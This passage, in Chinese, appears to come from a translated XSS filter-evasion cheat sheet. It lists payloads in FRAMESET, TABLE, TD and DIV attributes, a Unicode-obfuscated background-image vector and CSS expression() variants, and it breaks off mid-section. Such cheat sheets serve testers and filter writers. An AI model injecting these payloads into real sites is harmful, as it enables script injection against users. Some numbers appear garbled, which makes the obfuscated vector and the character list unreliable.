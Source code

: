 ```html
<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>
```

### TABLE

```html
<TABLE BACKGROUND="javascript:alert('XSS')">
```

#### TD

与上面类似，TD 的背景也容易受到包含 JavaScript XSS 向量的影响：

```html
<TABLE><TD BACKGROUND="javascript:alert('XSS')">
```

### DIV

#### DIV 背景图像

```html
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
```

#### 带有 Unicode XSS 漏洞的 DIV 背景图像

这已稍微修改以混淆 URL 参数：

```html
<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">
```

（原始漏洞由 Renaud Lifchitz 发现，是 Hotmail 中的一个漏洞）

#### DIV 背景图像加额外字符

RSnake 构建了一个快速的 XSS 模糊器，用于检测 IE 中开放括号后但在 JavaScript 指令之前允许的任何错误字符。这些是十进制的，但你可以包含十六进制并添加填充。（可以使用以下任何字符：1-32, 34, 39, 160, 8192-8.13, 12288, 65279）：

```html
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
```

#### DIV 表达式

这种攻击的变体通过在冒号和 `expression` 之间使用换行，对真实世界的 XSS 过滤器有效：

```html
<DIV STYLE="width: expression(alert('XSS'));">
```

### 低级隐藏块

仅在 IE 渲染引擎 - Trident 上有效。一些网站认为注释块内的任何内容都是安全的，因此不需要删除，这允许我们的 XSS 向量存在。或者系统可能会尝试在某些内容周围添加注释标签，以徒劳地使其无害。正如我们所见，这可能无法奏效：
